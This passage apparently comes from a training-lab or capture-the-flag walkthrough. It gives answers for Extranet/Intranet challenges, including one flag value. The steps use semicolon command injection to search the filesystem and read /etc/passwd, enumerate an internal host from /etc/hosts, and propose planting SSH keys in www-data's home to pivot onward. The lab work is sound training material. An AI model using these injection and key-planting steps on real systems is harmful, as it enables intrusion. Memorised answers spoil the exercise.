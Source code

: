Hint
This flag is base64 encoded

##### ANSWER #####

Step 1. follow from step 5 of Post - Extranet 5 

Step 2. `;find / -iname *inventory* 2> /dev/null` -> Running this on the search directory you'll find 

/usr/share/equip-inventory.txt

Step 3. Cat that to find the flag `;cat /usr/share/equip-inventory.txt`

Step 4. Decode the flag to base 64 `echo RVNYSmtNR08yZUlFa2RkNDVjWGMK | base64 --decode`

Answ -> ESXJkMGO2eIEkdd45cXc

#### Post - Intranet 5 ####

Enumerate all network items, relating to name resolution.

##### ANSWER #####

Step 1. follow from step 5 of Post - Extranet 5 

Step 2. run `cat /etc/hosts` to see which hosts are open 

    Result 
    127.0.0.1 localhost
    # The following lines are desirable for IPv6 capable hosts
    ::1 ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ff02::3 ip6-allhosts
    192.168.150.253 Donovian-Intranet

Step 3. We need to enumarate 192.168.150.253 and inorder to enumerate this, we need to copy our ssh keys to 192.168.28.100 who has access to 192.168.150.253 Donovian-Intrane

Step 4. run `;cat /etc/passwd` -> will show no-logins and the once that the user has a login to is -> www-data:x:33:33:www-data:/var/www:/bin/bash . This shows the user has the login shell,  www-data:x:33:33:www-data:/var/www:/bin/bash    #/var/www is the home folder for this user and /bin/bash is login shell.

Step 5. We need to insert our ssh keys here so we can login to 192.168.28.100

Step 6.  `;ls -la /var/www`     #check if .ssh exists. On running this we find. So `www-data` exists

    total 20
    drwxrwxr-x  5 root     www-data 4096 Jan 10 17:00 .
    drwxr-xr-x 14 root     root     4096 May  4  2023 ..
    drwxr-xr-x  3 www-data www-data 4096 Jan 10 17:00 .local
    drwx------  2 www-data www-data 4096 Jan 10 16:47 .ssh
    drwxr-xr-x  4 root     root     4096 May  4  2023 html
